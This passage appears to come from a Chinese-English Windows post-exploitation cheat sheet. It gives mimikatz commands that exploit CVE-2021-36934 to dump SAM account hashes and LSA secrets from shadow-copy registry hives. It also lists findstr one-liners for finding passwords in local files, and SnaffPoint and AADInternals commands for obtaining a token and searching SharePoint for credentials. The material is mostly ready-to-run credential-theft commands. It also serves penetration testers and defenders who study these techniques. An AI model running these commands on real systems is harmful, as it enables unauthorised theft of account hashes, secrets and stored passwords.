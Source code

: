 Then exploit the CVE by requesting the shadowcopies on the filesystem and reading the hives from it.

```powershell
mimikatz> token::whoami /full

# List shadow copies available
mimikatz> misc::shadowcopies

# Extract account from SAM databases
mimikatz> lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM

# Extract secrets from SECURITY
mimikatz> lsadump::secrets /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /security:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY
```

- [【漏洞复现】CVE-2021-36934 Windows 提权漏洞复现 - TeamsSix](https://teamssix.com/210725-074847.html#!)

### 搜索文件内容中的 password
在 .xml, .ini, .txt .config 等文件中搜索 Password
```powershell
cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt
findstr /si password *.xml *.ini *.txt *.config 2>nul >> results.txt
findstr /spin "password" *.*
```

在远程地址例如 SMB Shares 或 SharePoint 搜索

* Search passwords in SharePoint: [nheiniger/SnaffPoint](https://github.com/nheiniger/SnaffPoint) (must be compiled first, for referencing issue see: https://github.com/nheiniger/SnaffPoint/pull/6)

```powershell
# First, retrieve a token
## Method 1: using SnaffPoint binary
$token = (.\GetBearerToken.exe https://your.sharepoint.com)
## Method 2: using AADInternals
Install-Module AADInternals -Scope CurrentUser
Import-Module AADInternals
$token = (Get-AADIntAccessToken -ClientId "9bc3ab49-b65d-410a-85ad-de819febfddc" -Tenant "your.onmicrosoft.com" -Resource "https://your.sharepoint.com")

# Second, search on Sharepoint
## Method 1: using search strings in ./presets dir
.\SnaffPoint.exe -u "https://your.sharepoint.com" -t $token
## Method 2: using search string in command line
### -l uses FQL search, see: https://learn.microsoft.com/en-us/sharepoint/dev/general-development/fast-query-language-fql-syntax-reference
.\SnaffPoint.exe -u "https://your.sharepoint.com" -t $token -l -q "filename:.config"
```

* Search passwords in SMB Shares: [SnaffCon/Snaffler](https://github.com/SnaffCon/Snaffler)
